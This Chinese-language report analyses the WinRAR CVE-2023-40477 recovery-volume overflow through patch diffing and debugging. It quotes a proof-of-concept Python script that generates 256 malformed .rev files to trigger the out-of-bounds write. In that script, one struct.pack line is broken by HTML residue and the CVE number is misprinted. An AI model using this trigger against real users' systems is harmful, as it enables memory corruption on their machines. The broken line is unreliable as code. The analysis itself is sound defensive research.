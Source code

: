 ```yaml
---
title: Winrar RCE漏洞（CVE-2023-40477）分析报告
slug: winrar-rce-cve-2023-40477-analysis-report
author: 张栩滔
date: 2023-12-01 18:00
categories: 漏洞分析
tags:
  - WinRAR
  - RCE
  - CVE-2023-40477
  - 漏洞分析
  - 补丁与修复
---
```


## 0x00 漏洞背景

WinRAR是一款功能强大的压缩和解压缩软件，它允许用户轻松地创建和管理存档文件，将多个文件或文件夹压缩成单个文件以减小文件大小，或解压已有的存档文件。用户可以设置密码来保护存档文件的内容，并在需要时自动解压缩文件。WinRAR还支持多种压缩格式，具有出色的压缩率和压缩速度，适用于各种操作系统，为文件管理提供了便捷工具。

## 0x01 漏洞信息

**2023年6月8日**

安全研究人员goodbyeselene和趋势科技合作报告了该漏洞。

**2023年7月20日**

Winrar官方发布修复该漏洞的Winrar6.23版本。

**2023年8月14日**

CVE收录该漏洞并分配编号cve-2023-40477。

**2023年8月29日**

安全研究人员Barak Sternberg发布此漏洞的部分细节以及PoC。

## 0x02 漏洞影响

该漏洞存在于Winrar6.23版本之前。此漏洞是由用户解压RAR3.0格式的压缩文件造成的，该压缩文件目录下要存在恶意构造的.rev后缀名的恢复卷。

## 0x03 漏洞分析

**1.漏洞信息收集**

首先查看漏洞编号获取信息。可以得到一些模糊的信息，如漏洞产生的地点在于恢复卷（recovery volumes），漏洞的原因是在于没有对用户提交的数据进行校验，可能导致缓冲区溢出，从而导致RCE。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400037120.9713781589545811.png)

从rarlab上能得到更多信息，如发生的漏洞是处理RAR 3.0格式，触发的漏洞条件是解压与格式错误的rev文件同一目录下的rar文件。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400037830.8746307102112757.png)

**2.补丁分析**

随后使用BinDiff对比6.22和6.23版本的Unrar.exe。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400038530.2084214771475591.png)

发现添加了与0xFF大小的检测，大于就跳出，这很像对溢出的检测。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400039260.9323816318286983.png)

Winrar是闭源的，但是可以找到相关存储库。

https://github.com/aawc/unrar/blob/main/recvol3.cpp

https://github.com/pmachapman/unrar/blob/master/recvol3.cpp

将以上两个文件使用TextDiff对比，发现确实增加了对数据的校验。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400040030.6019859621012627.png)

IDA反编译Unrar.exe。发现Unrar.exe的代码与recvol3.cpp文件的代码可以对应上

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400040750.23022416898415365.png)

基址偏移0x1F542处对应的代码SrcFile\[CurArcNum\]=(File\*)NewFile;，查看SrcFile定义，发现其是一个File指针的数组，大小为256，随后跟了一个类型为Array的变量。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400041470.8866271088146996.png)

动态调试发现会不断的给SrcFile数组的元素进行赋值。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400042240.012338382772111411.png)

如果eax>0xFF就是溢出，可以看到处理Rar100.rev的时候已经溢出了。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400043130.2897009458261163.png)

 为了确定溢出偏移回到加载的初始地方，对this的指针打内存写入断点，发现断在sub\_41E000内部。其函数主要对this的前0x400字节进行了置0。可以发现这可以和256大小的File指针数组对上（32位软件一个指针占4字节，256\*4 == 1024 == 0x400），随后的5字节是Array变量，但是在源码中只发现了四个字节的内容。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400044040.9833334324554605.png)

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400044740.40040419580112574.png)

最后对PoC生成及数据来源进行分析。以PoC中的Rar00.rev为例。首先对P\[3\]进行了初始化，数据来源于文件倒数第七个字节开始的三个字节。Rar00.rev此处的数据为F0 00 00，由于加一会导致其在内存中初始化为01 01 F1。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400045570.3190819977686191.png)

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400046410.6113738621013232.png)

随后会进行P\[1\]+P\[2\] > 255的判断。此处是0xF1+0x01。最后P\[2\]会赋值给FileNumber，然后FileNumber+P\[0\]-1作为索引进行赋值。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400047160.41862233263798876.png)

由于P\[0\]可控且没有经过验证，故而可以很轻易的让索引大于255，从而导致越界写入，也就是导致了栈溢出。

最后回顾PoC代码和补丁。

``` Python
## CVE-2023-4047 PoC By Wild Pointer // 
 ## DISCLAIMER: Use at your own responsibility - The publisher, author or any of its affiliates aren't responsible for any actions caused, made or generated by using this code and/or repository.
 ## This is just & solely for educational purposes and includes demo example only, not to harm or cause any impact. 
 ## Use this for educational purposes only. Do not use this piece of code for any unethical or unintended behaviour.
 '''
 1. Using Winrar < 6.23, Create RAR4 Archive with one random file (around 100kb is enough), make it "RAR4" type & Enable "Add recovery record".
 2. Choose "split to volumes" - You can put "1024B" (to do many splits, but also some small amounts of splits are enough).
 2. In "Advanced" - change recovery record percentage > 20%, also make recovery volumes > 40, also make - "old name style" in recovery volumes.
 3. Remove "archive_name.r01" - ie the first volume that has recovery volume - so Restore() will be triggered, i.e: delete "archive_name.r01".
 3. Now use the attached code to re-generate malformed "recovery volumes":
 '''
 import zlib
 import struct
 ARCHIVE_NAME = 'YOUR_ARCHIVE_NAME_WITHOUT_SUFFIX_HERE' # CHANGE THIS & MAKE SURE YOU ARE IN THE SAME FOLDER AS THE ARCHIVE.

 def calculate_crc32(data):
     crc_value = zlib.crc32(data)
     return crc_value & 0xFFFFFFFF

 def calc_crc(x):
     res = calculate_crc32(x)
     return struct.pack("<i"< span="">, res)

 # 0. malform .r01 volume
 #data = open('%s.r01' % ARCHIVE_NAME, 'rb').read()
 #data = data[:0x280] + bytes(0x80) + data[0x300:]
 #open('%s.r01' % ARCHIVE_NAME, 'wb').write(data)

 # 1. re-generate malformed recovery vols.
 data = open('%s01.rev' % ARCHIVE_NAME, 'rb').read()
 names = ['%s%s.rev' % (ARCHIVE_NAME, str(i).zfill(2)) for i in range(256)]
 datas = [data[:-7] + bytes([0xf0, 0x00, i]) + calc_crc(data[:-7] + bytes([0xf0, 0x00, i])) for i in range(256)]

 # 2. overwrite malformed recovery vols.
 for i in range(256):
     fname = names[i]
     data = datas[i]
     open(fname, 'wb').write(data)
```

可以发现PoC中的datas = \[data\[:-7\] + bytes(\[0xf0, 0x00, i\]) + calc\_crc(data\[:-7\] + bytes(\[0xf0, 0x00, i\])) for i in range(256)\]就是控制倒数第七个字节开始的三个字节。

而补丁亦对P\[0\]+P\[2\]-1进行了检测。

![](./winrar-rce-cve-2023-40477-analysis-report/assets/17617400047870.09086547834638792.png)

至此漏洞分析结束，由于本身越界写入的数据是new出来的指针，导致漏洞利用并不简单，并且由于需要存在.rev结尾的恢复卷文件，所以也会让被攻击者产生怀疑，故而此漏洞价值并没有Winrar爆出来的另一个RCE漏洞CVE-2023-38831高。  

## 0x04 修复方法

1.升级Winrar至6.23或更高版本。  

2.不解压存在.rev文件的rar文件。